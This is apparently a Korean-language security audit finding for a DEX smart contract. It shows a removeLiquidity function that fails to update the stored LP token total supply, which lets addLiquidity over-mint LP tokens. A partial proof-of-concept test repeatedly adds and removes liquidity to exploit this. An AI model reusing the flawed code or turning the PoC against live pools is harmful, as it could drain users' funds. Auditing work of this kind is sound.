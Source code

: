 # 황준태

## removeLiquidity LP token total supply유지 못함.
#### Dex.sol:removeLiquidity
**********************critical (파급력: High, 공격 난이도: Medium)**********************

```solidity
uint256 public totalSupply_ = totalSupply();

function removeLiquidity(uint256 LPTokenAmount, uint256 minimumTokenXAmount, uint256 minimumTokenYAmount) public returns (uint256 tokenXAmount_,uint256 tokenYAmount_){
    require(LPTokenAmount > 0, "Less LP Token Supply");
    amountX = tokenX.balanceOf(address(this));// token X amount udpate
    amountY = tokenY.balanceOf(address(this));// token Y amount update
    tokenXAmount_ = _mul(amountX,LPTokenAmount)/totalSupply_;
    tokenYAmount_ = _mul(amountY,LPTokenAmount)/totalSupply_;
    require(tokenXAmount_ >= minimumTokenXAmount, "TokenX amount below minimum");
    require(tokenYAmount_ >= minimumTokenYAmount, "TokenY amount below minimum");
    amountX -= tokenXAmount_;
    amountY -= tokenYAmount_;
    _burn(msg.sender,LPTokenAmount);
    tokenX.transfer(msg.sender,tokenXAmount_);
    tokenY.transfer(msg.sender,tokenYAmount_);

    return (tokenXAmount_,tokenYAmount_);
 
}
```

totalSupply_는 state variable로, 발급한 LP token의 총 발행량 저장하는 역할을 한다.

하지만 removeLiquidity에서 LPToken을 소각하고 난 이후에 totalSupply_변수의 양을 변경하지 않았고, totalSupply()함수를 이용해서 LP token의 총 발행량을 유지하지도 않는다.

```solidity
liqX = _mul(tokenXAmount ,totalSupply_)/amountX;
        liqY = _mul(tokenYAmount ,totalSupply_)/amountY;
        LPTokenAmount = (liqX<liqY) ? liqX:liqY;
```

addLiquidity를 통해서 전달받을 LP token을 계산할 때 totalSupply는 분자에 곱해지기 때문에 줄어들지 않은 totalSupply만큼 계속 LP token이 더 많이 발행되게 된다.

#### PoC

```solidity
function testExploitTotalLiquidity() external {
        uint lp = dex.addLiquidity(1000 ether, 1000 ether, 0);
        uint lp2 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        (uint rx, uint ry) = dex.removeLiquidity(lp2, 0, 0);
        lp2 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log("lp2: %d", lp2);
        (rx, ry) = dex.removeLiquidity(lp2, 0, 0);
        lp2 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log("lp2: %d", lp2);
        (rx, ry) = dex.removeLiquidity(lp2, 0, 0);
        lp2 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log("lp2: %d", lp2);
        (rx, ry) = dex.removeLiquidity(lp2, 0, 0);
        lp2 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log("lp2: %d", lp2);
        (rx, ry) = dex.removeLiquidity(lp2, 0, 0);
        lp2 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log("lp2: %d", lp2);
        (rx, ry) = dex.removeLiquidity(lp2, 0, 0);
```